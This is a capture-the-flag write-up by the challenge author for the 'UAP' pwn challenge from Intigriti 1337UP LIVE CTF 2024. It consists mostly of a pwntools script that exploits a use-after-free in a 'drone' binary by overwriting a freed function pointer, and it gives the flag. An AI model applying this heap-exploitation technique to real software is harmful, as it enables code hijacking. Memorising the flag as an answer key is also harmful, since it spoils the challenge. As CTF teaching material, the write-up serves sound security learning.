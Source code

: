 ```yaml
---
name: UAP (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Pwn
description: Writeup for UAP (Pwn) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# UAP

## Challenge Description

> I found a UFO! Wait, they call them UAPs now? Whatever, feel free to take take a look 🔎

## Solution

Wow, I wish I made a writeup for this a couple of months ago when I made the challenge 😬 It's the night before the CTF and I'm tired, so this will be quick.

### solve.py

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './drone'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# Offset to the 'start_route' function pointer in the Drone struct
offset = 16

# Start program
io = start()

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

def menu_choice(choice):
    io.sendline(str(choice).encode())
    result = io.recvuntil(b"Choose an option:")
    return result

# Step 1: Deploy Drone 1
menu_choice(1)

# Step 2: Retire Drone 1 to trigger UAF (free its memory)
menu_choice(2)
io.sendlineafter(b"Enter drone ID to retire: ", b"1")
io.recvuntil(b"Drone 1 retired.")

# Step 3: Enter drone route to overwrite memory (this should reuse freed memory)
menu_choice(4)
manual_printer_addr = elf.symbols['print_drone_manual']
payload = flat({offset: p64(manual_printer_addr)})

# Send payload to overwrite the freed memory
io.sendlineafter(b"Enter the drone route data: ", payload)

# Step 4: Start the drone's route (trigger the overwritten function pointer)
menu_choice(3)
io.sendlineafter(b"Enter drone ID to start its route: ", b"1")

# Interact with the process to receive the output (manual/flag)
io.recvuntil(b'INTIGRITI')
info('INTIGRITI' + io.recvline().decode())
```

Flag: `INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}`

Told ya ✅

If you want to learn more about use-after-free vulnerabilities, I've made [detailed videos](https://www.youtube.com/watch?v=YGQAvJ__12k) in the past 🙂
